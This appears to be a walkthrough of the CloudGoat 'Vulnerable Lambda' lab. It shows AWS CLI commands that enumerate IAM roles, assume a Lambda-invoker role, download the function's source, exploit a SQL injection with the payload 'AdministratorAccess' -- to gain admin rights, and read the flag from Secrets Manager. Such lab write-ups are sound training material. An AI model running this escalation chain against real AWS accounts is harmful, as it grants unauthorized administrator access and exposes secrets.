 # Vulnerable Lambda

- Whoami
    ```sh
    $ aws --profile bilbo --region <your-region> sns publish --topic-arn arn:aws:sns:<your-region>:<valid-account-id>:aaa --message aaa
    ```

- List available roles (since the scenario resources has 1 IAM Role), we saw 1 role associated with our principal in which we can assume (`sts:AssumeRole`)
    ```sh
    $ aws --profile bilbo iam list-roles
    [snip]
        {
          "Path": "/",
          "RoleName": "cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm",
          "RoleId": "AROAXPO7SZDZOE7BZA33U",
          "Arn": "arn:aws:iam::0123456789:role/cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm",
          "CreateDate": "2023-10-30T12:30:11+00:00",
          "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
              {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                  "AWS": "arn:aws:iam::0123456789:user/cg-bilbo-vulnerable_lambda_cgiddcanijvmlm"
                },
                "Action": "sts:AssumeRole"
              }
            ]
          },
          "MaxSessionDuration": 3600
        },
    [snip]

    ```

- Enumerate the roles
    ```sh
    $ aws --profile bilbo iam list-role-policies --role-name cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm
    {
        "PolicyNames": [
            "lambda-invoker"
        ]
    }

    $ aws --profile bilbo iam get-role-policy --role-name cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm --policy-name lambda-invoker
    {
        "RoleName": "cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm",
        "PolicyName": "lambda-invoker",
        "PolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": [
                        "lambda:ListFunctionEventInvokeConfigs",
                        "lambda:InvokeFunction",
                        "lambda:ListTags",
                        "lambda:GetFunction",
                        "lambda:GetPolicy"
                    ],
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:lambda:us-east-1:0123456789:function:vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1",
                        "arn:aws:lambda:us-east-1:0123456789:function:vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1"
                    ]
                },
                {
                    "Action": [
                        "lambda:ListFunctions",
                        "iam:Get*",
                        "iam:List*",
                        "iam:SimulateCustomPolicy",
                        "iam:SimulatePrincipalPolicy"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        }
    }


    $ aws --region ap-southeast-1 --profile bilbo sts assume-role --role-arn arn:aws:iam::0123456789:role/cg-lambda-invoker-vulnerable_lambda_cgiddcanijvmlm --role-session-name invoker
    ```

- Next, add the `aws_access_key_id`, `aws_secret_access_key`, and `aws_session_token` to `~/.aws/credentials`
    ```
    ...

    [bilbo-invoker]
    aws_access_key_id = ...
    aws_secret_access_key = ...
    aws_session_token = ...
    ```

- Since, the lambda functions are located in `us-east-1` region, we need to explicitly specify when dealing with the functions
    ```sh
    $ aws --region us-east-1 --profile bilbo-invoker lambda list-functions
    {
        "Functions": [
            {
                "FunctionName": "vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1",
                "FunctionArn": "arn:aws:lambda:us-east-1:0123456789:function:vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1",
                "Runtime": "python3.9",
                "Role": "arn:aws:iam::0123456789:role/vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1",
                "Handler": "main.handler",
                "CodeSize": 991559,
                "Description": "This function will apply a managed policy to the user of your choice, so long as the database says that it's okay...",
                "Timeout": 3,
                "MemorySize": 128,
                "LastModified": "2023-10-30T12:30:04.711+0000",
                "CodeSha256": "U982lU6ztPq9QlRmDCwlMKzm4WuOfbpbCou1neEBHkQ=",
                "Version": "$LATEST",
                "TracingConfig": {
                    "Mode": "PassThrough"
                },
                "RevisionId": "13498e18-8f0d-449d-aef7-4898237a1cc5",
                "PackageType": "Zip",
                "Architectures": [
                    "x86_64"
                ],
                "EphemeralStorage": {
                    "Size": 512
                },
                "SnapStart": {
                    "ApplyOn": "None",
                    "OptimizationStatus": "Off"
                }
            }
        ]
    }

- Download the source code
    ```sh
    $ aws --region us-east-1 --profile bilbo-invoker lambda get-function --function-name vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1 \
        | jq -r '.Code.Location' | xargs -I{} wget '{}' -O vuln.zip
    ```

- Source code review => SQLi
    ```python
            statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"
    ```

    ```sh
    $ aws --region us-east-1 --profile bilbo-invoker lambda invoke --function-name vulnerable_lambda_cgiddcanijvmlm-policy_applier_lambda1 --cli-binary-format raw-in-base64-out --payload file://payload.json out.json
    ```

    payload.json
    ```json
    {
        "user_name": "cg-bilbo-vulnerable_lambda_cgiddcanijvmlm",
        "policy_names": [
            "AdministratorAccess' -- "
        ]
    }
    ```

- Getting the secret
    ```sh
    $ aws --region us-east-1 --profile bilbo secretsmanager list-secrets
    {
        "SecretList": [
            {
                "ARN": "arn:aws:secretsmanager:us-east-1:0123456789:secret:vulnerable_lambda_cgiddcanijvmlm-final_flag-DTt8C2",
                "Name": "vulnerable_lambda_cgiddcanijvmlm-final_flag",
                "LastChangedDate": "2023-10-30T20:29:57.367000+08:00",
                "LastAccessedDate": "2023-10-30T08:00:00+08:00",
                "Tags": [
                    {
                        "Key": "Stack",
                        "Value": "CloudGoat"
                    },
                    {
                        "Key": "Name",
                        "Value": "cg-vulnerable_lambda_cgiddcanijvmlm"
                    },
                    {
                        "Key": "Scenario",
                        "Value": "vulnerable-lambda"
                    }
                ],
                "SecretVersionsToStages": {
                    "0BC6453F-BAF9-4785-B0D3-75887C806C8B": [
                        "AWSCURRENT"
                    ]
                },
                "CreatedDate": "2023-10-30T20:29:56.484000+08:00"
            }
        ]
    }

    $ aws --region us-east-1 --profile bilbo secretsmanager get-secret-value --secret-id vulnerable_lambda_cgiddcanijvmlm-final_flag
    {
        "ARN": "arn:aws:secretsmanager:us-east-1:0123456789:secret:vulnerable_lambda_cgiddcanijvmlm-final_flag-DTt8C2",
        "Name": "vulnerable_lambda_cgiddcanijvmlm-final_flag",
        "VersionId": "0BC6453F-BAF9-4785-B0D3-75887C806C8B",
        "SecretString": "cg-secret-846237-284529",
        "VersionStages": [
            "AWSCURRENT"
        ],
        "CreatedDate": "2023-10-30T20:29:57.362000+08:00"
    }
    ```
